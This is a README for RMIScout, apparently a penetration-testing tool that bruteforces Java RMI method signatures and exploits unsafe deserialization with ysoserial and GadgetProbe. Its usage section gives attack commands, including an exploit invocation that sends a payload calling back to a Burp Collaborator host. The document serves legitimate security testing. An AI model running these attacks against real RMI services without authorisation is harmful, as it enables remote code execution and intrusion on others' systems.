

<p align="center">
  
</p>

#


### Description

RMIScout performs wordlist and bruteforce attacks against exposed Java RMI interfaces to safely guess method signatures without invocation.

On misconfigured servers, any known RMI signature using non-primitive types (e.g., `java.lang.String`), can be exploited by replacing the object with a serialized payload. This is a fairly common misconfiguration (e.g., VMWare vSphere Data Protection + vRealize Operations Manager, Pivotal tc Server and Gemfire, Apache Karaf + Cassandra)  as highlighted in  [An Trinh's 2019 Blackhat EU talk](https://i.blackhat.com/eu-19/Wednesday/eu-19-An-Far-Sides-Of-Java-Remote-Protocols.pdf).

RMIScout integrates with [ysoserial](https://github.com/frohoff/ysoserial/) and [GadgetProbe](https://github.com/bishopfox/gadgetprobe) to perform deserialization attacks against services incorrectly configuring process-wide serialization filters ([JEP 290](https://openjdk.java.net/jeps/290)).

<p align="center">
  
</p>

### Motivation

I wanted a tool to do the following tasks:
1. Provide wordlist and text-based bruteforce strategies instead of bruteforcing a 64-bit method hash.
2. Identify RMI methods without invoking them.
3. Provide a simple way to exploit the known issue of unsafe RMI parameter unmarshalling and integrate with ysoserial or payloads implementing `ysoserial.payloads.ObjectPayload`.
4. Integrate GadgetProbe to identify remote classes to help identify relevant software and construct gadget chains.

To start off your search, the included `lists/prototypes.txt` wordlist is a deduplicated wordlist from 15,000 RMI prototypes found in OSS projects across GitHub. Feel free to submit a PR to include more :)

### How it works

To identify but not execute RMI functions, RMIScout uses low-level RMI network functions and dynamic class generation to send RMI invocations with deliberately mismatched types to trigger remote exceptions. All parameters are substituted for a dynamically generated serializable class with a 255-character name assumed to not exist in the remote class path. For example:

Remote Interface:
```
void login(String user, String password)
```
RMIScout will invoke:
```
login((String) new QQkzkn3..255 chars..(), (String) new QQkzkn3..255 chars..())
```
If the class is present this will result in a remote `java.rmi.UnmarshalException` cased by the `ClassNotFoundException` or argument unmarshalling error without invoking the underlying method.

Read a [full technical writeup here](https://know.bishopfox.com/research/rmiscout).

### Usage

```
# Perform wordlist-attack against remote RMI service using wordlist of function prototypes
./rmiscout.sh wordlist -i lists/prototypes.txt <host> <port>

# Bruteforce using method wordlist and other options
./rmiscout.sh bruteforce -i lists/methods.txt -r void,boolean,long -p String,int -l 1,4 <host> <port>

# Swap object-derived types with the specified ysoserial payload and payload parameter
./rmiscout.sh exploit -s 'void vulnSignature(java.lang.String a, int b)' -p ysoserial.payloads.URLDNS -c "http://examplesubdomain.burpcollaborator.net" -n registryName <host> <port>

# Use GadgetProbe and a known signature to bruteforce classes on the remote classpath
./rmiscout.sh probe -s 'void vulnSignature(java.lang.String a, int b)' -i ../GadgetProbe/wordlists/maven_popular.list -d "examplesubdomain.burpcollaborator.net" -n registryName <host> <port>
```


### Building and Running

Use the included `rmiscout.sh` script to automatically build the project and as a convenient wrapper around `java -jar` syntax:
```bash
./rmiscout.sh wordlist -i lists/prototypes.txt <host> <port>
```

Alternatively, build the project manually and use traditional `java -jar` syntax:

```bash
# Manually build JAR
./gradlew shadowJar

java -jar build/libs/rmiscout-1.01-SNAPSHOT-all.jar wordlist -i lists/prototypes.txt <host> <port>
```


### Try It out
Run the demo RMI server. Try out the included `demo/wordlist.txt`.
```bash
cd demo
./start.sh
```
### Author

Twitter: [@BumbleSec](https://twitter.com/theBumbleSec)

GitHub: [the-bumble](https://github.com/the-bumble/)
